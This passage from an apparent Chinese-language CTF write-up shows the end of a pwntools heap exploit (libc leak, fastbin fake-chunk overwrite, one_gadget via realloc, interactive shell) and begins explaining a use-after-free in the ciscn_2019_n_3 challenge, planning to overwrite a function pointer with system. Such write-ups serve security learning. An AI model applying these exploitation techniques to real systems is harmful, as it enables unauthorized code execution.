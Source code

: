 ```

add(0x60) #1
gdb.attach(io)
display(2)
io.recvuntil("content: ")
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))

libc_base = address - 0x58 - 0x3c4b20
print(hex(libc_base))

realloc = libc_base + realloc
one = 0x4526a + libc_base
fake_chunk = address - 0x8b

add(0x60) #4 / 2
delete(2)
edit(4, 0x8, p64(fake_chunk))
# gdb.attach(io)
add(0x60) # 2 / 4
add(0x60) # fake / 5
payload = '\x00'*11 + p64(one) + p64(realloc + 2)

edit(5, len(payload), payload)
# gdb.attach(io)
add(255)

io.interactive()
```



## 0x05 ciscn_2019_n_3

这题相对比较简单，也是一道菜单题（heap都是菜单题吗（小声bb

开头给了system函数还是挺好的。

这里使用了records数组来记录申请的chunk的下标，为数组中的每一个元素申请了0xc大小的空间，刚好三个单位的大小，依次存放了输出函数、free函数和申请的chunk地址。

```
records[v2] = (int)malloc(0xCu);
  v3 = (int *)records[v2];
  *v3 = (int)rec_int_print;
  v3[1] = (int)rec_int_free;
```

来看看chunk的free函数，将chunk进行free，但是没有进行置空，也就是说存在UAF漏洞，再结合函数指针，我们可以将rec_int_print或者rec_int_free的地址修改为system函数的地址，然后进行输出或者free时就可以getshell了。

```
int __cdecl rec_str_free(void *ptr)
`{`
  free(*((void **)ptr + 2));
  free(ptr);
  return puts("Note freed!");
`}`
```
